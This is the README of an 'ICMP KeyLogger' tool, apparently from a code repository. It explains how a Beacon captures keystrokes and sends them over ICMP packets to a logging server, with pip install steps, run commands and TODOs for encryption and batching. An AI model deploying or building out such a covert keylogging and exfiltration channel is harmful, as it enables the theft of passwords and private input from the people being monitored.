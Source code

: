 
# ICMP KeyLogger

## Introduction
ICMP KeyLogger is a tool designed to capture and transmit keystrokes over the network using ICMP packets. It is divided into two main components: the Beacon, which captures keystrokes and sends them, and the Server, which receives and logs these keystrokes.

### TODO
- Implement encryption for keystroke data.
- Group packets to optimize network traffic instead of sending keystrokes instantly.

## Requirements
### Windows
- [npcap](https://nmap.org/npcap/)
- pynput
- scapy

### Linux
- pynput
- scapy

## Installation
Install Python dependencies using pip:
```pip install pynput scapy```

## Usage
### Identifying Network Interface on Windows
To find the full name of the network interface:

```ipconfig /all```
Use the Description field of the relevant interface.

### Running the Beacon
Run the Beacon component using the following command. Replace `[Description from ipconfig /all]` with the actual description of your network interface and `[keylogger server IP]` with the IP address of the server.
```py ICMPbeacon.py -i "[Description from ipconfig /all]" -d [keylogger server IP]```

### Running the Server
Run the Server component with the following command. Replace `[listening interface]` with the network interface the server should listen on and `[beacon IP]` with the IP address of the beacon.
```sudo python3 ICMPlogServ.py -i [listening interface] -d [beacon IP]```
